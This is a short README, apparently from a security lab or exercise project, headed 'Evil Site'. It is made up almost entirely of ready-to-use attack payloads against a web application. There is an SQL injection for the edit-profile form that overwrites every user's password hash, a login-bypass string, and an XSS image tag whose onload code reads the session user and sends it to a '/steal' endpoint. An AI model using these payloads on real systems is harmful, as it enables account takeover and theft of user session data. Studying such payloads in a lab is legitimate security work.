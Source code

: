 # Evil Site
Malicious site


## Inject
Run injection with:

>", password = "e10adc3949ba59abbe56e057f20f883e" WHERE 1;

On the edit profile form

Then use this to login with any email:

> " OR email = "

## XSS

``````````
<img src="favicon.ico" onload='async function evil(){await getAuthStatus();let e=Session.user,t=JSON.stringify(e),n="http://127.0.0.1:8085/steal?d="+encodeURIComponent(t);(new Image).src=n}evil();' style="width:1px;height:1px; opacity:.05" />
``````````